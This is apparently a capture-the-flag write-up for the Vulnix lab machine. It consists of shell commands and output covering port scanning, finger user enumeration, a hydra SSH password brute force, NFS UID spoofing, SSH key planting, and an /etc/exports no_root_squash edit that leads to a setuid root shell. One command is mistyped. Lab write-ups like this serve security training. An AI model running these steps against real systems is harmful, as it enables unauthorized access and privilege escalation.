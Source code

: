 # VULNIX


### NMAP

kali@kali:~$ nmap 192.168.1.100 -sV -sT -A
>Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-10 13:44 CET
Nmap scan report for vulnix.home (192.168.1.100)
Host is up (0.00055s latency).
Not shown: 988 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 10:cd:9e:a0:e4:e0:30:24:3e:bd:67:5f:75:4a:33:bf (DSA)
|   2048 bc:f9:24:07:2f:cb:76:80:0d:27:a6:48:52:0a:24:3a (RSA)
|_  256 4d:bb:4a:c1:18:e8:da:d1:82:6f:58:52:9c:ee:34:5f (ECDSA)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: vulnix, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=vulnix
| Not valid before: 2012-09-02T17:40:12
|_Not valid after:  2022-08-31T17:40:12
|_ssl-date: 2018-03-10T12:45:36+00:00; +1s from scanner time.
79/tcp   open  finger     Linux fingerd
|_finger: No one logged on.\x0D
110/tcp  open  pop3       Dovecot pop3d
|_pop3-capabilities: PIPELINING CAPA UIDL SASL STLS TOP RESP-CODES
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:36+00:00; 0s from scanner time.
111/tcp  open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3          111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      53683/udp  mountd
|   100005  1,2,3      59616/tcp  mountd
|   100021  1,3,4      36103/udp  nlockmgr
|   100021  1,3,4      45994/tcp  nlockmgr
|   100024  1          36141/udp  status
|   100024  1          53348/tcp  status
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
143/tcp  open  imap       Dovecot imapd
|_imap-capabilities: OK LOGINDISABLEDA0001 ENABLE IDLE SASL-IR LOGIN-REFERRALS post-login have Pre-login more IMAP4rev1 capabilities STARTTLS LITERAL+ listed ID
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:36+00:00; +1s from scanner time.
512/tcp  open  exec?
513/tcp  open  login      OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
993/tcp  open  ssl/imap   Dovecot imapd
|_imap-capabilities: OK ENABLE IDLE SASL-IR LOGIN-REFERRALS post-login have Pre-login more IMAP4rev1 capabilities listed LITERAL+ AUTH=PLAINA0001 ID
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:35+00:00; 0s from scanner time.
995/tcp  open  ssl/pop3   Dovecot pop3d
|_pop3-capabilities: PIPELINING CAPA UIDL SASL(PLAIN) USER TOP RESP-CODES
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:35+00:00; 0s from scanner time.
2049/tcp open  nfs_acl    2-3 (RPC #100227)
Service Info: Host:  vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel


### FINGER

kali@kali:~$ finger root@192.168.1.100
>Login: root           			Name: root
Directory: /root                    	Shell: /bin/bash
Never logged in.
No mail.
No Plan.

kali@kali:~$ finger vulnix@192.168.1.100
>Login: vulnix         			Name: 
Directory: /home/vulnix             	Shell: /bin/bash
Never logged in.
No mail.
No Plan.

root@kali:/home# finger user@192.168.1.100
>Login: user           			Name: user
Directory: /home/user               	Shell: /bin/bash
Never logged in.
No mail.
No Plan.
>
>Login: dovenull       			Name: Dovecot login user
Directory: /nonexistent             	Shell: /bin/false
Never logged in.
No mail.
No Plan.


### NFS

root@kali:/home/kali# showmount -e 192.168.1.100
>Export list for 192.168.1.100:
/home/vulnix *

root@kali:/home/kali# mount --source 192.168.1.100:/home/vulnix --target /home/vulnix

**Permission denied T.T'**


### BRUTEFORCE

kali@kali:~$ hydra -l user -P rockyou.txt 192.168.1.100 ssh -t 4
>Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2018-03-10 15:38:39
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://192.168.1.100:22/
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344335 to do in 3735:31h, 4 active
[STATUS] 60.67 tries/min, 182 tries in 00:03h, 14344217 to do in 3940:44h, 4 active
[STATUS] 60.57 tries/min, 424 tries in 00:07h, 14343975 to do in 3946:51h, 4 active
[22][ssh] host: 192.168.1.100   login: user   password: letmein
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-03-10 15:47:27

kali@kali:~$ root -l user 192.168.1.100
>user@vulnix:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),100(users)

user@vulnix:~$ cat /etc/passwd
>root: x:0:0:root:/root:/bin/bash
vulnix: x:2008:2008::/home/vulnix:/bin/bash


### ACCESS TO NFS

root@kali:/home/kali# groupadd vulnix -g 2008
root@kali:/home/kali# useradd vulnix -u 2008 -g 2008 -s /bin/bash
root@kali:/home/kali# mkdir /home/vulnix
root@kali:/home/kali# mount --source 192.168.1.100:/home/vulnix --target /home/vulnix
root@kali:/home/kali# su vulnix
vulnix@kali:/home/kali$ cd /home/vulnix
vulnix@kali:~$ ll
>total 20
drwxr-x--- 2 vulnix vulnix 4096 Sep  2  2012 ./
drwxr-xr-x 4 root   root   4096 Mar 10 16:04 ../
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3486 Apr  3  2012 .bashrc
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile


### GETTING SSH WITH VULNIX

kali@kali:~$ ssh-keygen -t rsa
kali@kali:~$ cat .ssh/id_rsa.pub 
>ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT1Mw6+iVZcmCHOe9IBW7S5He5ZeBwTFNhNlNqZQ90S2GLlenYEJElGxS2LiZcjtaTi4DkeYSZlUOI+fXKb+iLLFXyHdkh53gqSwF/sD0rV8N+6HQB93XtwWf69SUm80Dw9rYTOkDhPzHhQFsUIXyErZeiX0vdcDsXEKUV+toYOmmUa/avVbz/Y9CjMTAAFxEDSzprbLAIORJ6ZjIeVn5J4xHo1+xuD3O0tQ/Jw7fhc7zTn3NGtd0JjDuRiz9T6X+eYLL6+rwMXnQXKxhGNbuBIObNHR/iNL1YZdSxH6W8gSFiHIGr42hSUV1dxEySDz8bNCZFI2etWyqbpTmfJGCP kali@kali

kali@kali:~$ su vulnix
vulnix@kali:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT1Mw6+iVZcmCHOe9IBW7S5He5ZeBwTFNhNlNqZQ90S2GLlenYEJElGxS2LiZcjtaTi4DkeYSZlUOI+fXKb+iLLFXyHdkh53gqSwF/sD0rV8N+6HQB93XtwWf69SUm80Dw9rYTOkDhPzHhQFsUIXyErZeiX0vdcDsXEKUV+toYOmmUa/avVbz/Y9CjMTAAFxEDSzprbLAIORJ6ZjIeVn5J4xHo1+xuD3O0tQ/Jw7fhc7zTn3NGtd0JjDuRiz9T6X+eYLL6+rwMXnQXKxhGNbuBIObNHR/iNL1YZdSxH6W8gSFiHIGr42hSUV1dxEySDz8bNCZFI2etWyqbpTmfJGCP kali@kali" >> authorized_keys

kali@kali:~$ ssh -l vulnix 192.168.1.100


### PRIVILEGE ELEVATION

vulnix@vulnix:~$ sudo -l
>Matching 'Defaults' entries for vulnix on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
>
>User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports

vulnix@vulnix:~$ sudoedit /etc/exports
/home/vulnix    *(rw,root_squash)
/root   *(rw,no_root_squash) <- ADDED

**Reboot!**

root@kali:/home/kali# showmount -e 192.168.1.100
>Export list for 192.168.1.100:
/root        *
/home/vulnix *

root@kali:/mnt# mount 192.168.1.100:/root /mnt/root
root@kali:/mnt# cd /mnt/root
root@kali:/mnt/root# ls -lrth
>total 4.0K
-r-------- 1 root root 33 Sep  2  2012 trophy.txt

root@kali:/mnt/root# cat trophy.txt 
***cc614640424f5bd60ce5d5264899c3be***


### GETTING ROOT SHELL

vulnix@vulnix:~$ sudoedit /etc/exports
>/home/vulnix    *(rw,no_root_squash) <- MODIFIED
/root   *(rw,no_root_squash)

**Reboot!**

vulnix@vulnix:~$ cp /bin/bash /home/vulnix

root@kali:/mnt/vulnix# chmod 4777 bash 
root@kali:/mnt/vulnix# ls -lrth
>total 900K
-rwsrwxrwx 1 root root 900K Mar 10 16:47 bash

vulnix@vulnix:~$ ./bash -p
bash-4.2# id
>uid=2008(vulnix) gid=2008(vulnix) euid=0(root) groups=0(root),2008(vulnix)
